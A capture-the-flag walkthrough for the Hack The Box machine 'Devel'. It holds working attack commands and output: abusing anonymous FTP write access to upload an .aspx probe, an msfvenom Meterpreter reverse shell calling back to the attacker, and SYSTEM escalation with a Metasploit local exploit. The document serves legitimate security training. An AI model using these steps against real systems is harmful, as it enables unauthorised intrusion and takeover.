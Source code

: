 # Target
[Devel](https://app.hackthebox.com/machines/Devel/information), while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits.

# Scan
```
nmap -sS -sC $TARGET_IP
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-15 19:03 CET
Nmap scan report for 10.129.86.228
Host is up (0.026s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7

Nmap done: 1 IP address (1 host up) scanned in 9.81 seconds
```

# Attack surface
FTP allows for anonymous connection. By browsing FTP root directory we can see that this is also root directory for HTTP server. What is more we have write permission to this directory. Let's try to upload `.aspx` probe to see if we could execute arbitrary code (Remote Code Execute vulnerability) on IIS server.

```
curl -s -T - ftp://anonymous@$TARGET_IP/probe.aspx <<EOF && \
curl -s http://$TARGET_IP/probe.aspx | grep -q 1337 && echo "\nTarget is \e[31;43mvulnerable\e[0m to RCE" || echo "\nTarget is not vulnerable to RCE" && \
curl -s ftp://anonymous@$TARGET_IP/probe.aspx -Q "-DELE probe.aspx" > /dev/null
<%@ Page Language="C#"%>
<html>
<head>
</head>
<body>
<%Response.Write(1000+300+30+7); %>
</body>
</html>
EOF
```

Our probe shows that `Target is vulnerable to RCE`. We could use this vulnerability to upload `.aspx` reverse shell.

# Attack vector
Let's start Metasploit `multi/handler` with `windows/meterpreter/reverse_https` payload.
```
msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 4444; set payload windows/meterpreter/reverse_https; run"
```

```
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => windows/meterpreter/reverse_https
[*] Started HTTPS reverse handler on https://10.10.14.212:4444
```

It's waiting for connection, so now let's create reverse shell with `.aspx` format, upload it over anonymous FTP connection, execute with HTTP GET call (to establish connection to `multi/handler`) and delete with another FTP connection. All in one line :)
```
msfvenom -p windows/meterpreter/reverse_https \
    LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) \
    LPORT=4444 \
    -f aspx |\
curl -s -T - ftp://anonymous@$TARGET_IP/shell.aspx && \
curl -s http://$TARGET_IP/shell.aspx && \
curl -s ftp://anonymous@$TARGET_IP/shell.aspx -Q "-DELE shell.aspx" > /dev/null
```

After couple of seconds we should get our reverse shell connection for IIS user:
```
[*] https://10.10.14.212:4444 handling request from 10.129.86.228; (UUID: kssv2nos) Staging x86 payload (178780 bytes) ...
[*] Meterpreter session 1 opened (10.10.14.212:4444 -> 10.129.86.228:49247) at 2025-01-15 20:38:47 +0100

meterpreter > getuid 
Server username: IIS APPPOOL\Web
```

# Privileges escalation
To elevate privileges we could use Meterpreter `getsystem`, but in this case it does not give any results (at least for me), so we could try with WinPEAS or, as we are using Meterpreter, use Multi Recon Local Exploit Suggester.
```
meterpreter > background
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

Suggester have found plenty of vulnerabilities to chose from, let's go with [CVE-2013-1300](https://nvd.nist.gov/vuln/detail/CVE-2013-1300) which could be exploited with `exploit/windows/local/ms13_053_schlamperei`.
```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms13_053_schlamperei
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms13_053_schlamperei) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms13_053_schlamperei) > set LHOST tun0
LHOST => 10.10.14.212
msf6 exploit(windows/local/ms13_053_schlamperei) > set LPORT 5555
LPORT => 5555
msf6 exploit(windows/local/ms13_053_schlamperei) > run

[*] Started reverse TCP handler on 10.10.14.212:5555 
[*] Launching notepad to host the exploit...
[+] Process 3096 launched.
[*] Reflectively injecting the exploit DLL into 3096...
[*] Injecting exploit into 3096...
[*] Found winlogon.exe with PID 432
[*] Sending stage (177734 bytes) to 10.129.86.228
[+] Everything seems to have worked, cross your fingers and wait for a SYSTEM shell
[*] Meterpreter session 2 opened (10.10.14.212:5555 -> 10.129.86.228:49256) at 2025-01-15 21:25:25 +0100

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

At this point all that is left is to grab flags.
```
meterpreter > cat /Users/babis/Desktop/user.txt
********************************
meterpreter > cat /Users/Administrator/Desktop/root.txt
********************************
```